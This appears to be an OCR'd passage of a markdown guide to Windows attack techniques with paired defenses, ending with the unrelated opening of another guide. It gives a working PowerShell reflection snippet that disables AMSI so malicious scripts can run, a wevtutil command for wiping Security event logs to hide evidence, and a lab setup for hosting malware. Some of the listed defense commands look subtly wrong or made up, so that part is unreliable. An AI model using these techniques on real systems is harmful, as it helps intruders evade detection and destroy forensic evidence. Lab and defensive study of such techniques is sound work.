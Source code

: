 
---

### **4. AMSI Bypass Variations**  
#### **A. .NET Reflection AMSI Bypass**  
```powershell  
# Disable AMSI using reflection  
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiContext','NonPublic,Static').SetValue($null, $null)  
```  
- **Purpose**: Disables AMSI to allow execution of malicious scripts.  
- **Defense**:  
  ```powershell  
  # Enable Tamper Protection  
  Set-MpPreference -EnableTamperProtection Enabled  
  ```  

---

### **5. Anti-Forensics & Log Tampering**  
#### **A. Selective Log Deletion**  
```powershell  
# Delete specific event logs (e.g., process creation logs)  
wevtutil.exe cl Security /q:"*[System[(EventID=4688)]]"  
```  
- **Purpose**: Removes evidence of process creation.  
- **Defense**:  
  ```powershell  
  # Forward logs to a SIEM  
  Set-ItemProperty -Path "HKLM:\Software\Microsoft\Windows\EventLog\Forwarding" -Name "ForwardingEnabled" -Value 1  
  ```  

---

### **Lab Setup Guide**  
1. **Attacker Machine**:  
   - Use Kali Linux (IP: `10.0.0.5`).  
   - Host malware/scripts:  
     ```bash  
     python3 -m http.server 80  
     ```  
2. **Victim Machine**:  
   - Replace `TARGET`, `attacker.com`, and `C:\malware.exe` with your lab values.  

---






Here’s a **comprehensive guide** on **remote access methods via the internet** (without reverse shells) and **how to block them**, focusing on techniques that attackers commonly use and how to defend against them in a local environment for testing purposes.

---